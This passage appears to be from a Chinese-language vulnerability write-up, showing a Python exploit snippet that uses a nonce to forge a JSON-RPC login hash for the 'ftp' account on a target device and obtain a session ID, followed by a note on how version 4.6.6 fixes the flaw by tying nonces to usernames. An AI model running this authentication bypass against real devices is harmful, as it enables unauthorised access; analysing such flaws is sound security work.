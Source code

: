 ```python
if r.status_code == 200 and "Access denied" not in r.text and "nonce" in r.json()['result']:
    nonce = r.json()['result']['nonce']
    data = f'ftp:*:{nonce}'
    hash = hashlib.md5(data.encode()).hexdigest()
    j = {"jsonrpc":"2.0","id":1,"method":"login","params":{"username":"ftp","hash":hash}}
    r = s.post(url, json=j)
    try:
        sid = r.json()['result']['sid']
    except Exception:
        pass
    if sid:
         print("[*] Successfully generated a non-privileged SID for the \033[1mftp\033[0m account: \033[1m%s\033[0m" %sid)
    else:
        print("[*] Error! Could not generate a SID!")
else:
    print("[*] Could not get a nonce from the target device! Try again later!")
```



最后看下当前最新的 v4.6.6 版本中是怎么修复的，可以看到 nonce 和 username 对应关系有了，root 外的用户无法再借助 root 通过 `rpc - challenge` 请求生成的 nonce 来绕过登录了。

![](/assets/images/2024-11-04/44.png) 

